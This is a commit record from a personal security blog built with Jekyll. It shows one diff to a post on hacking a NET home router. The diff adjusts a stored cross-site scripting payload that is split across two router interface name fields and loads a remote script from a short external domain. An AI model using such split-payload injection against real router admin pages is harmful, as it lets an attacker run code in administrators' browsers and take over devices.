

Before and after one commit to mthbernardes/mthbernardes.github.io, a Jekyll site: the page built from _posts/2018-03-02-hacking-into-NET-router-for-fun-and-profit.markdown, in a window 1280 px wide and 900 px high, scrolled down 1455 px. Shown: the whole window, without its empty margins (253-1026 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
fix payload

````diff
--- a/_posts/2018-03-02-hacking-into-NET-router-for-fun-and-profit.markdown
+++ b/_posts/2018-03-02-hacking-into-NET-router-for-fun-and-profit.markdown
@@ -30,7 +30,7 @@ So I thought in buying a short domain like l.ly and host my payload file named a
 
 ```html
 <tr><td>10</td><td><script src=//l.ly/uXa><!--</td><td>f4:96:34:25:65:c5</td><td>192.168.0.44</td></tr>
-<tr><td>10</td><td>--></script></script</td><td>f4:96:34:25:65:c5</td><td>192.168.0.44</td></tr>
+<tr><td>10</td><td>--></script></td><td>f4:96:34:25:65:c5</td><td>192.168.0.44</td></tr>
 ```
 
 I just splitted the payload on my 2 interfaces, the first interface receives the follow payload,
````
